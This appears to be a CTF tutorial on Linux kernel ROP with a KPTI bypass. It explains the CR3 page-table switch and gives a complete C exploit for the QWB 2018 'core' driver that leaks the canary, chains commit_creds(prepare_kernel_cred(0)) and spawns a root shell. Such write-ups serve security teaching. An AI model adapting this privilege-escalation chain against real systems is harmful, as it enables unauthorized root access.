




# Kernel ROP with KPTI bypass

[KPTI](https://www.kernel.org/doc/html/latest/x86/pti.html), or `Kernel page-table isolation`, means the kernel space and user space use two separate sets of page tables, which fundamentally changes the kernel's memory management.

KPTI was primarily invented to fix an epic CPU hardware vulnerability: Meltdown. In simple terms, it exploits vulnerabilities in CPU pipeline design (out-of-order execution and speculative execution) to obtain kernel-space data that should be inaccessible from user mode, which is a type of side-channel attack.

**KPTI also removes execute permissions from the user address space portion in the kernel page table, making ret2usr completely a thing of the past**.

With KPTI (Kernel page-table isolation) enabled, we **cannot simply use swapgs ; iret to return to user mode** as before. Instead, we also **need to switch the user process's page table back** before returning to user mode.

As is well known, Linux uses a **four-level page table** structure (PGD->PUD->PMD->PTE), and the CR3 control register stores the address of the current PGD. Therefore, with KPTI enabled, switching between user mode and kernel mode involves switching CR3. To speed up the switching, the kernel places the kernel-space PGD and user-space PGD in contiguous memory (two tables, one page of 4k each, totaling 8k, with the kernel-space one at the lower address and the user-space one at the higher address). This way, **only flipping the 13th bit of CR3 is needed to complete the page table switch**.



It should be noted that **both page tables have a complete mapping of the user memory space. However, the user page table only maps a small amount of kernel code (such as system call entry points, interrupt handlers, etc.), while only the kernel page table has a complete mapping of the kernel memory space. Both page tables have a complete mapping of the user memory space**, as shown in the figure below. The left side shows the page table layout without KPTI, and the right side shows the page table layout with KPTI enabled.



**KPTI also removes execute permissions (NX) from the top-level page table entries corresponding to the user address space portion in the kernel page table, making ret2usr completely a thing of the past**.

In addition to the code at the system call entry that switches the user-mode page table to the kernel-mode page table, the kernel also provides a function `swapgs_restore_regs_and_return_to_usermode` in `arch/x86/entry/entry_64.S` for switching the kernel-mode page table back to the user-mode page table. Its address can be obtained from `/proc/kallsyms`.

Since the source assembly code is quite complex, we can view its basic assembly logic through IDA reverse engineering:



In practice, the stack operations at the beginning can be skipped, and we can start directly from `mov rdi, rsp`. This function can be roughly summarized as the following operations:

```assembly
mov  rdi, cr3
or rdi, 0x1000
mov  cr3, rdi
pop rax
pop rdi
swapgs
iretq
```

Therefore, we only need to set up the following stack layout:

```
↓   swapgs_restore_regs_and_return_to_usermode
    0 // padding
    0 // padding
    user_shell_addr
    user_cs
    user_rflags
    user_sp
    user_ss
```

## Example: QWB 2018 - core

This time we add the `pti=on` option to the kernel boot parameters in the `-append` section of the startup script to explicitly enable KPTI protection:

```bash
qemu-system-x86_64 \
-m 64M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr pti=on" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

Now if we try to run the previous ROP exploit, we can see that it no longer works and instead triggers a segmentation fault, because **in the kernel-mode page table, the top-level page table entries corresponding to the user address space no longer have execute permissions**:



Therefore, before returning to user mode, we need to first switch the kernel-mode page table back. Here, after completing the privilege escalation, we can directly use the `swapgs_restore_regs_and_return_to_usermode` function to return to user mode, without needing to manually call the `iretq` instruction.

The final exploit is as follows. The part of the ROP chain that returns to user mode has been replaced from the two separate instructions `swapgs` + `iret` to a call to the `swapgs_restore_regs_and_return_to_usermode` function. Note that there are a bunch of operations at the beginning of this function that we don't need, so we need to manually calculate the position of the `mov rdi, cr3` instruction within the function through reverse engineering:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t kernel_base = 0xffffffff81000000, kernel_offset;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    log_success("[*] Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

/**
 * Challenge Interface
**/

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff8109c8e0
#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a008da

void exploitation(void)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x1000], type[0x10];
    size_t addr;
    size_t canary;
    size_t rop_chain[0x100], i;

    log_info("[*] Start to exploit...");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }

    /* get addresses of kernel symbols */

    log_info("[*] Reading /tmp/kallsyms...");

    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        log_error("[x] Failed to open the sym_table file!");
        exit(EXIT_FAILURE);
    }

    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) {
            break;
        }

        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf(
                SUCCESS_MSG("[+] Successful to get the addr of commit_cread: ")   
        	   "%lx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf(SUCCESS_MSG(
                "[+] Successful to get the addr of prepare_kernel_cred: ")
        	   "%lx\n", prepare_kernel_cred);
            continue;
        }
    }

    kernel_offset = commit_creds - COMMIT_CREDS;
    kernel_base += kernel_offset;
    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    /* reading canary value */

    log_info("[*] Reading value of kernel stack canary...");

    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t*) buf)[0];

    printf(SUCCESS_MSG("[+] Got kernel stack canary: ") "%lx\n", canary);

    /* building ROP chain */

    for(i = 0; i < 10; i++) {
        rop_chain[i] = canary;
    }
    rop_chain[i++] = POP_RDI_RET + kernel_offset;
    rop_chain[i++] = 0;
    rop_chain[i++] = prepare_kernel_cred;
    rop_chain[i++] = POP_RDX_RET + kernel_offset;   // exec:1
    rop_chain[i++] = POP_RCX_RET + kernel_offset;   // exec:3
    rop_chain[i++] = MOV_RDI_RAX_CALL_RDX + kernel_offset;  // exec:2
    rop_chain[i++] = commit_creds;
    rop_chain[i++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 22 + kernel_offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = (size_t) get_root_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp + 8;   // userland stack balance
    rop_chain[i++] = user_ss;

    /* exploitation */

    log_info("[*] Start to execute ROP chain in kernel space...");

    write(fd, rop_chain, 0x800);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}

int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```
